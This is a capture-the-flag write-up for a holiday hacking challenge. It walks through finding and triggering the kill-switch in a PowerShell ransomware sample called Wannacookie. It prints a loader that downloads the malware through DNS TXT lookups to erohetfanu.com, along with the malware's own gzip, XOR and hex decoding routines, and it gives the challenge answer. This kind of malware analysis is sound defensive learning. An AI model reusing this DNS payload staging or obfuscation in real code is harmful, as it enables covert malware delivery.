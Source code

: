 Question 11: Stop the Malware
=============================

| Analyze the full malware source code to find a kill-switch and activate it at the North Pole's domain registrar `HoHoHo Daddy <https://hohohodaddy.kringlecastle.com/index.html>`_.
| What is the full sentence text that appears on the domain registration success message (bottom sentence)?

Answer: *Successfully registered yippeekiyaa.aaay!*

Solution
--------

Step 1: Safely obtain the malware
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

We started with the ``WannacookieLoader.ps1`` code from :doc:`Question 10 </objectives/question10>`. 

We modified the ``WannacookieLoader.ps1`` code as shown below. Line 10 saves the output, which is the malware, to a file (**wannacookie.min.ps1**) instead of executing it. 

.. code-block:: powershell
 :linenos:
 :emphasize-lines: 10

 function H2A($a) {
    $o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}
    return $o
  }
  $f = "77616E6E61636F6F6B69652E6D696E2E707331"
  $h = ""
  foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {
    $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings
  }
  $(H2A $h | Out-File 'E:\Temp\wannacookie.min.ps1')

We ran the above code to ensure that it worked but then utilised Alabaster's hint to download a non-minified version of the malware called **wannacookie.ps1**.

To download **wannacookie.ps1** we made the following changes to the above code:

* In line 5 we changed the HEX encoded string to represent ``wannacookie.ps1`` instead of ``wannacookie.min.ps1``
* In line 10 we changed the output file name to ``wannacookie.ps1``

The resulting code is shown below:

.. code-block:: powershell
 :linenos:
 :emphasize-lines: 5,10

 function H2A($a) {
    $o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}
    return $o
  }
  $f = "77616E6E61636F6F6B69652E707331"
  $h = ""
  foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {
    $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings
  }
  $(H2A $h | Out-File 'E:\Temp\wannacookie.ps1')

.. note::

 The remaining part of this solution as well as the answer to :doc:`Question 12 </objectives/question12>` were based on **wannacookie.ps1** instead of **wannacookie.min.ps1**.

Step 2: Find the killswitch
^^^^^^^^^^^^^^^^^^^^^^^^^^^

The **wannacookie.ps1** code contained a function called **wannacookie**. Part of this function included the following code:

.. code-block:: powershell
 :linenos:
 :emphasize-lines: 2

 $S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000"
 if ($null -ne ((Resolve-DnsName -Name $(H2A $(B2H $(ti_rox $(B2H $(G2B $(H2B $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings))).ToString() -ErrorAction 0 -Server 8.8.8.8))) {return}

Line 2 exits out of the function without doing anything if a certain DNS resolution returns something rather than null. In other words, this line checks for the kill-switch that is referred to in this question.

To determine the DNS name we borrowed existing functions from **wannacookie.ps1** to create the following code:

.. code-block:: powershell
 :linenos:

 function H2B {
    param($HX)
    $HX = $HX -split '(..)' | ? { $_ }
    ForEach ($value in $HX){
        [Convert]::ToInt32($value,16)
    }
 }

 function G2B {
 param([byte[]]$Data)
	Process {
        $SrcData = New-Object System.IO.MemoryStream( , $Data )
	    $output = New-Object System.IO.MemoryStream
        $gStream = New-Object System.IO.Compression.GzipStream $SrcData, ([IO.Compression.CompressionMode]::Decompress)
	    $gStream.CopyTo( $output )
        $gStream.Close()
		$SrcData.Close()
		[byte[]] $byteArr = $output.ToArray()
        return $byteArr
    }
 }

 function B2H {
    param($DEC)
    $tmp = ''
    ForEach ($value in $DEC){
        $a = "{0:x}" -f [Int]$value
        if ($a.length -eq 1){
            $tmp += '0' + $a
        } else {
            $tmp += $a
        }
    }
    return $tmp
 }

 function ti_rox {
    param($b1, $b2)
    $b1 = $(H2B $b1)
    $b2 = $(H2B $b2)
    $cont = New-Object Byte[] $b1.count
    if ($b1.count -eq $b2.count) {
        for($i=0; $i -lt $b1.count ; $i++)
        {
            $cont[$i] = $b1[$i] -bxor $b2[$i]
        }   
    }
    return $cont
 }

 function H2A() {
    Param($a)
    $outa
    $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$outa = $outa + $_}
    return $outa
 }

 $S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000"
 $name = $(H2A $(B2H $(ti_rox $(B2H $(G2B $(H2B $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings)))

 Write-Host $name

The functions in lines 1 to 56 of the above code simply perform various mathematical translations. For example, H2A converts from HEX to ASCII.

Running this code returned ``yippeekiyaa.aaay``.

Step 3: Activate the kill-switch
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

We activated ``yippeekiyaa.aaay`` at the North Pole's domain registrar `HoHoHo Daddy <https://hohohodaddy.kringlecastle.com/index.html>`_.

The registrar returned **Successfully registered yippeekiyaa.aaay!**

